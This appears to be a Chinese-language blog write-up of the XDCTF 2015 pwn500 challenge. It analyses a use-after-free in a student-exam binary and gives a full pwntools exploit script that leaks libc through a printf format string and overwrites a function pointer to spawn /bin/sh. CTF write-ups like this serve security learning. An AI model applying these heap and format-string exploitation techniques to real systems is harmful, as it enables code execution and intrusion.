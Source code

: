 ```yaml
---  
layout: post  
title: "xdctf_pwn500"  
date: 2015-10-06 14:27:24 +0800  
comments: true  
categories:   
---  
```

###0x00 分析
分析程序得如下数据结构
	name_desp
	{
		name[17];	0
		desp[200];	18
		math;		224
		english;	232
		dota;		240
	}

	item
	{
		int opt;	0
		int real_len;	4
		int want;	8
		int context_ptr;16
		func_p;		24
	}
子程序
	do
	i += input((__int64)&s[i], a2 - i);
	while ( i != a2 );
		fputs(s, stream);
	return 0LL;
fork的子程序栈溢出，返回的文件失败
导致real_len为0
	if ( *(_DWORD *)(ptr_item + 4) )
	  {
	    *(_QWORD *)(ptr_item + 16) = 0LL;
	    *(_DWORD *)(ptr_item + 4) = 0;
	  }
	  puts("OK, you could take the exam again\n");
resit时当real_len为0时，堆上的指针不清零,导致UAF

###0x01 利用
先exam一个，让子程序溢出，得到real_len为0，
再exam一个与item同样大小的chunk，通过1024选项覆写
先利用printf格式化字符串漏洞泄漏libc
再把/bin/sh和system的地址写上去


###0x02 exp

	from binascii import *  
	from pwn import *  
	  
	r = process('./jwc')  
	#r = remote('192.168.56.101', 6666)  
	  
	def opt(n):  
		print r.recvuntil('exit')  
		r.sendline(n)  
	  
	opt('1')	#register	  
	print r.recvuntil('chars')  
	r.sendline('namname')  
	print r.recvuntil('self')  
	r.sendline('despppppppppppp')  
	  
	  
	opt('2')	#exam	math  
	print r.recvuntil('dota')  
	r.sendline('1')  
	print r.recvuntil('?')  
	r.sendline('104')  
	print r.recvuntil('OK')  
	r.sendline('c'*104)  
	  
	  
	opt('5')	#resit  
	print r.recvuntil('dota')  
	r.sendline('1')  
	  
	opt('2')	#exam	math  
	print r.recvuntil('dota')  
	r.sendline('2')  
	print r.recvuntil('?')  
	r.sendline('4')  
	print r.recvuntil('OK')  
	r.sendline('abcd')  
	  
	printf_plt = 0x4009B0  
	puts_got = 0x0602330  
	  
	libc = ELF('/usr/lib/libc.so.6')  
	system_l = libc.symbols['system']  
	__libc_start_main_l = libc.symbols['__libc_start_main']  
	  
	  
	opt('1024')	#secret  
	print r.recvuntil(':)')  
	r.sendline('1')  
	payload  = ''  
	payload += '%11$pccc'  
	payload += 'aaaaaaaa'  
	payload += 'aaaaaaaa'  
	payload += p64(printf_plt)  
	r.sendline(payload)  
	  
	  
	opt('3')	#leak  
	print r.recvuntil('math: 0')  
	recv_data = r.recvuntil('en')  
	print (recv_data)  
	  
	__libc_start_main_r = int((recv_data)[1:15],16)-240  
	system_r = system_l - __libc_start_main_l + __libc_start_main_r  
	log.info('__libc_start_main_r'+hex(__libc_start_main_r))  
	log.info('__libc_start_main_l'+hex(__libc_start_main_l))  
	log.info('system_l'+hex(system_l) )  
	log.info('system_r'+hex(system_r) )  
	  
	opt('1024')	#secret  
	print r.recvuntil(':)')  
	r.sendline('1')  
	payload  = ''  
	payload += '/bin/sh\x00'  
	payload += 'aaaaaaaa'  
	payload += 'aaaaaaaa'  
	payload += p64(system_r)  
	r.sendline(payload)  
	  
	opt('3')	#shell  
	r.interactive()  
